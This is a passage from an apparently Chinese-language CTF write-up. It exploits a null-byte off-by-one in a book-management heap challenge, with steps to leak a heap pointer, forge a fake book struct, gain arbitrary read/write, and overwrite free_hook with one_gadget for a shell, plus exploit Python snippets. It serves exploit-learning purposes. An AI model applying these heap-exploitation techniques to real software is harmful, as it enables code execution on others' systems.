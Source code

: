 这样溢出之后，程序就会去 0x0000555555758300 找 book1 资料，而不是 0x0000555555758330 。那么如果我们能够在 0x0000555555758300 伪造一个 book 结构体，就能利用程序中的输出&修改功能，实现任意读写。程序是 Full RELRO ，就写 hook 。大概思路就是这么个思路，攻击流程：

1. author name 填充 0x20 bit
2. creat boo1 && book2，覆盖结束符
3. print book1 info 从 author name 泄露 book1 结构体地址
4. edit book1 description 填入 payload，构建 fake book1 结构体
5. change author name 覆盖 book1 指针，让其指向 fake book1 
6. print book1 info 泄露 book2 地址（mmap地址）
7. edit book1 来修改 book2 *description 指向 free_hook
8. edit book2 修改 free_hook 为 one_gadget

##### 泄漏 book1 结构体地址

因为程序中的 my_read 函数存在 null byte off-by-one ，事实上 my_read 读入的结束符 '\x00' 是写入到 0x555555756060 的位置的。这样当 0x555555756060～0x555555756068 写入 book 指针时就会覆盖掉结束符 '\x00' ，所以这里是存在一个地址泄漏的漏洞。通过打印 author name 就可以获得 pointer array 中第一项的值。

```
0x555555756040:	0x4141414141414141	0x4141414141414141
0x555555756050:	0x4141414141414141	0x4141414141414141   <== author name
0x555555756060: 0x0000555555758330 <== pointer array    0x0000000000000000
0x555555756070: 0x0000000000000000  0x0000000000000000
0x555555756080: 0x0000000000000000  0x0000000000000000
```

为了实现泄漏，首先在 author name 中需要输入 32 个字节来使得结束符被覆盖掉。之后我们创建 book1 ，这个 book1 的指针会覆盖 author name 中最后的 NULL 字节，使得该指针与 author name 直接连接，这样输出 author name 则可以获取到一个堆指针。

```python
createname("A"*32)
createbook(128,"a"*8,32,"b"*8)
createbook(0x21000,"/bin/sh\x00",0x21000,"d"*8) # getshell用随带也先申请，对本步没有影响
book_id_1,book_name,book_des,book_author=printbook(1)
book1_addr=u64(book_author[32:32+6].ljust(8,'\x00'))
```

##### 伪造结构体

程序中同样提供了一种 change 功能， change 功能用于修改 author name ，所以通过 change 可以写入 author name ，利用 off-by-one 覆盖 book1 的低字节。

覆盖掉 book1 指针的低字节后，这个指针会指向 book1 的 description [^4]，由于程序提供了 edit 功能可以任意修改 description 中的内容。我们可以提前在 description 中布置数据伪造成一个 book 结构，这个 book 结构的 description 和 name 指针可以由直接控制。

[^4]:为啥刚刚好就是在 book1 desc 里面？通过调试呗。注意在 Ubuntu 16 这里无法实现指向 book1 desc ，请看结尾补充

这里在 description 中伪造了 book ，使用的数据是 ``p64(1)+p64(book1_addr+0x38)+p64(book1_addr+0x40)+p64(0xffff)`` 。 

其中 book1_addr+0x38 指向 book2 的 book_name 指针的存储地址；book1_addr+0x40 指向 book2 的 book_desc 指针的存储地址，使得我们可以任意修改 book2 指针值。
